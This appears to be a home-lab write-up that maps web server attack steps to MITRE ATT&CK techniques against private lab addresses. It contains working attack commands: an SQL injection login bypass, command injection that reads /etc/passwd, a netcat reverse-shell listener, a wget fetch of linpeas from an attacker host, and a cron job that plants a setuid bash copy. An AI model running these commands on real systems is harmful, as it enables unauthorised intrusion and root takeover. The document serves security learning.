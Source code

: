 ```yaml
---
title: Attack Scenarios (MITRE)
---
```


# Web Server Attack Scenarios (mapped to MITRE ATT&CK)
<u>**Passwords and hashes have been concealed to retain confidentiality.**</u>

## <u>Directory Busting</u>
- **Techniques:** T1595.003 (Active Scanning: Wordlist Scanning)
- **Procedure:**

`feroxbuster -u http://192.168.25.142 -w /usr/share/wordlists/dirbuster/directory-list.txt`
![1](img/a.png){ loading=lazy }


## <u>SQL Injection</u>
- **Techniques:** T1190 (Exploit Public-Facing Application)
- **Procedure:**

`admin' OR '1'='1--`
![1](img/2a.png){ loading=lazy }
![1](img/2b.png){ loading=lazy }

## <u>Command Injection</u>
- **Techniques:** T1059.004 (Command and Scripting Interpreter: Unix Shell)
- **Procedure:**

`127.0.0.1 && cat /etc/passwd`
![2](img/1a.png){ loading=lazy }
![1](img/1b.png){ loading=lazy }

## <u>Reverse Shell</u>
- **Techniques:** T1505.003 (Server Software Component: Web Shell)
- **Procedure:**

`nc -nvlp 9001`
![3](img/3a.png){ loading=lazy }
![4](img/3c.png){ loading=lazy }
![1](img/3b.png){ loading=lazy }

## <u>Download Linpeas</u>
- **Techniques:** T1105 (Ingress Tool Transfer)
- **Procedure:**

`python -m http.server 80`
`wget http://192.168.25.130:80/linpeas.sh`
![5](img/4b.png){ loading=lazy }
![1](img/4a.png){ loading=lazy }

## <u>Execute Linpeas</u>
- **Techniques:** T1082 (System Information Discovery)
- **Procedure:**

`./linpeas.sh`
![7](img/5a.png){ loading=lazy }

## <u>Escalate Privileges Through Cronjob</u>
- **Techniques:** T1053.003 (Scheduled Task/Job: Cron) T1548.001 (Abuse Elevation Control Mechanism: Setuid/Setgid)
- **Procedure:**

`echo 'cp /bin/bash /home/bash; chmod +s /home/bash' > /home/report.sh`
`./home/bash -p`
![8](img/6a.png){ loading=lazy }

